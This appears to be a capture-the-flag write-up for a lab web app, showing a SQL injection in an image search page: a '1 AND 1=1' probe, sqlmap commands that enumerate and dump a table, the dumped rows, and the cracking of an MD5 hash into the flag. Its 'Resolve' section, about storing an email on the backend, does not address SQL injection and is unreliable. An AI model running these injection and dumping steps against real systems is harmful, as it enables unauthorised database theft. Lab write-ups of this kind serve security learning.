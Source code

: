 # 01_Unsecure_img_search

The GET parameter in the image search form is vulnerable  
Where: http://192.168.1.59/?page=searchimg

## Method

Go to http://192.168.1.59/?page=searchimg  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --tables```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```python sqlmap.py --url="http://192.168.1.59/?page=searchimg&id=1&Submit=Submit# --dump -T list_images```  
where `list_images` refers to the table name  
```
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

Decode flag  
`1928e8083cf461a51303633093573c46 -> albatroz -> F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188`  


## Resolve

- Store email in a variable on the backend
- Process email on submit to check that it is correct.

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
